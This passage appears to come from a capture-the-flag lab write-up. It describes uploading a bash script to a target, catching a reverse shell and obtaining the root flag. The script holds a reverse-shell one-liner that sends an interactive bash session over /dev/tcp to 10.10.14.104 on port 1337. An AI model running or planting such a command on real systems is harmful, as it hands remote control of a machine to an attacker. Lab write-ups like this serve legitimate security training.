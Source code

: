 > Before I use it, I upload the exploit shell file to target, the contents as follow 

```
#!/bin/bash
#
#
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.104/1337 0>&1'
```

![](IMG/49.png)

> Wait for a while, I can find that my listener get shell 

![](IMG/50.png)

 > Get root flag
 
![](IMG/51.png)
## Reference 
